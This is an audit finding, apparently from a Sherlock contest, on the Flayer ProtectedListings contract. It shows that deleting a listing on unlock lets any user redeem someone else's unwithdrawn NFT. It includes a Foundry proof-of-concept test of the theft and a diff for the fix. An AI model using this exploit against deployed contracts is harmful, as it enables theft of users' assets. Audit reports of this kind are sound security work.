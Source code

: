 Clean Snowy Mustang

High

# Unlocked protected listing asset can be redeemed by any other user

## Summary
Unlocked protected listing asset can be redeemed by any other user.

## Vulnerability Detail

When a user unlocks a protected listing, they can choose not to receive the asset right away.

[ProtectedListings.sol#L278-L287](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L278-L287):
```solidity
    /**
     * The amount of tokens taken are returned, as well as a fee. The recipient can also
     * opt to leave the asset inside the contract and withdraw at a later date by calling
     * the `withdrawProtectedListing` function.
     *
     * @param _collection The address of the collection to unlock from
     * @param _tokenId The token ID to unlock
@>   * @param _withdraw If the user wants to receive the NFT now
     */
    function unlockProtectedListing(address _collection, uint _tokenId, bool _withdraw) public lockerNotPaused {
```

The user can call [withdrawProtectedListing](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L341) to withdraw the asset anytime they like, protocol ensures only the asset owner can withdraw.

[ProtectedListings.sol#L341-L352](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L341-L352):
```solidity
    function withdrawProtectedListing(address _collection, uint _tokenId) public lockerNotPaused {
        // Ensure that the asset has been marked as withdrawable
@>    address _owner = canWithdrawAsset[_collection][_tokenId];
@>      if (_owner != msg.sender) revert CallerIsNotOwner(_owner);

        // Mark the asset as withdrawn
        delete canWithdrawAsset[_collection][_tokenId];

        // Transfer the asset to the user
        locker.withdrawToken(_collection, _tokenId, msg.sender);
        emit ListingAssetWithdraw(_collection, _tokenId);
    }
```

Unfortunately, a malicious user can bypass this restriction and redeem the asset from Locker. The culprit is that protocol deletes the listing object despite user choose to withdraw later.

[ProtectedListings.sol#L313-L314](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L313-L314)
```solidity
        // Delete the listing objects
        delete _protectedListings[_collection][_tokenId];
```

Please run the PoC in ProtectedListings.t.sol to verify:
```solidity
    function testAudit_WithdrawProtected() public {
        ICollectionToken collectionToken = locker.collectionToken(address(erc721a));

        address alice = makeAddr("Alice");
        erc721a.mint(alice, 888);

        IProtectedListings.CreateListing[] memory _listings = new IProtectedListings.CreateListing[](1);
        _listings[0] = IProtectedListings.CreateListing({
            collection: address(erc721a),
            tokenIds: _tokenIdToArray(888),
            listing: IProtectedListings.ProtectedListing({
                owner: payable(alice),
                tokenTaken: 0.2 ether,
                checkpoint: 0
            })
        });

        vm.startPrank(alice);
        erc721a.approve(address(protectedListings), 888);
        collectionToken.approve(address(protectedListings), type(uint256).max);

        // Alice creates a protected listing
        protectedListings.createListings(_listings);

        // Alice unlocks the protected listing
        protectedListings.unlockProtectedListing(address(erc721a), 888, false);
        vm.stopPrank();


        address bob = makeAddr("Bob");
        mintCollectionTokens(address(erc721a), bob, 1, 1);

        // Bob redeems the item
        vm.startPrank(bob);
        collectionToken.approve(address(locker), type(uint256).max);
        locker.redeem(address(erc721a), _tokenIdToArray(888));
        vm.stopPrank();

        // Bob owns the item now
        assertEq(erc721a.ownerOf(888), bob);
    }
```

## Impact

User's unlocked asset can be withdrawn by anyone else.

## Code Snippet

https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L314

## Tool used

Manual Review

## Recommendation

If user choose to withdraw later, do not delete the listing object.

[ProtectedListings.sol#L313-L322](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L313-L322):
```diff
-       // Delete the listing objects
-       delete _protectedListings[_collection][_tokenId];

        // Transfer the listing ERC721 back to the user
        if (_withdraw) {
+           // Delete the listing objects
+           delete _protectedListings[_collection][_tokenId];
            locker.withdrawToken(_collection, _tokenId, msg.sender);
            emit ListingAssetWithdraw(_collection, _tokenId);
        } else {
            canWithdrawAsset[_collection][_tokenId] = msg.sender;
        }
```

Delete the listing object when user actually withdraws.

[ProtectedListings.sol#L341-L352](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/ProtectedListings.sol#L341-L352):
```diff
    function withdrawProtectedListing(address _collection, uint _tokenId) public lockerNotPaused {
        // Ensure that the asset has been marked as withdrawable
        address _owner = canWithdrawAsset[_collection][_tokenId];
        if (_owner != msg.sender) revert CallerIsNotOwner(_owner);

+       // Delete the listing objects
+       delete _protectedListings[_collection][_tokenId];

        // Mark the asset as withdrawn
        delete canWithdrawAsset[_collection][_tokenId];

        // Transfer the asset to the user
        locker.withdrawToken(_collection, _tokenId, msg.sender);
        emit ListingAssetWithdraw(_collection, _tokenId);
    }
```